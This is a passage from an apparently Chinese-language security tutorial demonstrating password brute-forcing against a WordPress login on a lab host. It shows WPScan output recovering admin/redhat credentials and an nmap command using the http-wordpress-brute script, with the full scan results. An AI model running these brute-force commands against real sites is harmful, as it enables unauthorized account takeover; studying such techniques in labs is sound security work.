 ```

[+] Performing password attack on Wp Login against 1 user/s
Trying admin / redhat Time: 00:01:57 <==================================================================================================================> (3231 / 3231) 100.00% Time: 00:01:57
Trying admin / redhat Time: 00:01:57 <=========================================================                                                         > (3231 / 6462) 50.00%  ETA: ??:??:??
[SUCCESS] - admin / redhat                                                                                                                                                                      

[!] Valid Combinations Found:
 | Username: admin, Password: redhat

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Feb 18 20:34:15 2021
[+] Requests Done: 3255
[+] Cached Requests: 34
[+] Data Sent: 1.066 MB
[+] Data Received: 24.513 MB
[+] Memory used: 264.023 MB
[+] Elapsed time: 00:02:02

```

在末尾的“找到有效组合”部分包含了管理员用户名和密码，3231 行只用了两分钟。


我还有另一个字典文件，其中包含 3,238,659,984 行，使用它花费的时间更长并且会留下更多的证据。


使用 Nmap 可以更快地产生结果：



```
┌──(root?kali)-[~]
└─# nmap -sV --script http-wordpress-brute --script-args userdb=users.txt,passdb=password.txt,threads=6 vulnerable.usersys.redhat.com
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-18 20:48 EST
Nmap scan report for vulnerable.usersys.redhat.com (10.19.47.242)
Host is up (0.00015s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE VERSION
21/tcp   open  ftp      vsftpd 3.0.3
22/tcp   open  ssh      OpenSSH 8.0 (protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.37 ((Red Hat Enterprise Linux))
|_http-server-header: Apache/2.4.37 (Red Hat Enterprise Linux)
| http-wordpress-brute:
|   Accounts:
|       admin:redhat - Valid credentials              <<<<<<<
|       pgervase:redhat - Valid credentials         <<<<<<<
|_  Statistics: Performed 6 guesses in 1 seconds, average tps: 6.0
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version     port/proto  service
|   100000  2,3,4       111/tcp   rpcbind
|   100000  2,3,4       111/udp   rpcbind
|   100000  3,4         111/tcp6  rpcbind
|_  100000  3,4         111/udp6  rpcbind
3306/tcp open  mysql   MySQL 5.5.5-10.3.27-MariaDB
MAC Address: 52:54:00:8C:A1:C0 (QEMU virtual NIC)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.68 seconds
```